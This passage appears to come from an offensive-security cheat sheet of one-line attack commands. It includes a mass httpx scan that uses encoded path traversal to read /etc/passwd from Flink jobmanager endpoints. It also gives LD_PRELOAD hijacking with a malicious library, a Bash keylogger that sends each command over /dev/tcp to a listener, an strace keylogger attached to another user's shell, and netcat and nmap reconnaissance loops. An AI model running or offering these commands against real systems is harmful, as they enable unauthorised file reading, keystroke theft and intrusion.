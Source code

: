 ```sh
cat hosts | httpx -nc -t 300 -p 80,443,8080,8443,8888,8088 -path "/jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd" -mr "root:x" -silent
```

## LD_PRELOAD Hijacking

If you set LD_PRELOAD to the path of a shared object, that file will be loaded before any other library (including the C runtime, libc.so)

```sh
LD_PRELOAD=/path/to/my/malicious.so /bin/ls
```

## Bash Keylogger

```PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'```

## Strace Keylogger

```sh
root@rosesecurity:~# ps aux | grep bash
rick      3103  0.0  0.6   6140  3392 pts/0    Ss+  17:14   0:00 bash
root      3199  0.0  0.6   6140  3540 pts/1    Ss   17:18   0:00 bash
root      3373  0.0  0.1   3488   768 pts/1    S+   18:06   0:00 grep bash
```

Strace Options:

1. –p 3103: connect to PID 3103, which above is on pts/0
2. –t : print the time of day
3. –e write: only capture write calls
4. –q : be quiet
5. –f : follow any fork (created) process
6. –o keylogger.txt: output the results to a file named keylogger.txt

```sh
root@securitynik:~# strace -p 3103 -t -e write -q -f -o keylogger.txt &
[1] 3432
```

## Netcat UDP Scanner

```sh
nc-v -u -z <IP> <Port>
```

## Recon for Specific Device Before Enumerating

```sh
sudo tcpdump 'ether host XX:XX:XX:XX:XX:XX' -i en0 -vnt > CheckScan.txt |  tee CheckScan.txt | grep --line-buffered pattern | ( while read -r line; do sudo nmap -sV -n -T4 -O2 -oX NMAPScan.xml; rm CheckScan.txt; done; ) &
```

